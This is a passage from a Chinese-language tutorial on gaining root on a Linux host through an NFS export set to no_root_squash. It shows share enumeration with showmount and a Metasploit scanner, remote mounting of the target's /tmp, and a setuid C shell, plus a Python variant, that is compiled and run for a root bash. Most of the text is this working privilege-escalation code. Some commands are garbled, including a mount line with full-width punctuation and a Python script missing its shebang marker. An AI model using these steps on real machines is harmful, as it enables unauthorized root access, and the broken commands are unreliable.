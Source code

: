 ```shell
 # showmount -d

显示客户端信息和共享目录
 # showmount -a

显示指定NFS服务器的客户端信息和共享目录
# showmount -a ip
```

使用msf同样

```
msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > set rhosts IP
msf auxiliary(nfsmount) > run
```

/cat/exports中存在以下内容

```
└─# cat /etc/exports                                              
/tmp *(rw,sync,no_root_squash,no_subtree_check)
```

说明tmp目录存在我们需要的参数，并且能够远程挂载

3.创建目录远程挂载系统

```
mkdir /tmp/test
mount -o rw，vers = 2 [目标ip]：/tmp /tmp/test
```

在/tmp/test中创建C文件

```c
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

编译

```
gcc /tmp/test/suid-shell.c -o suid-shell
```

赋权

```
chmod +s suid-shell
```

回到目标机器上执行编译后的脚本,即可获得root权限，也可以利用其它类型的脚本，例如python,取决与目标机器上有什么服务

```python
/usr/bin/python3

import os
import sys

try: 
        os.system("/bin/bash")
except:
        sys.exit()
```
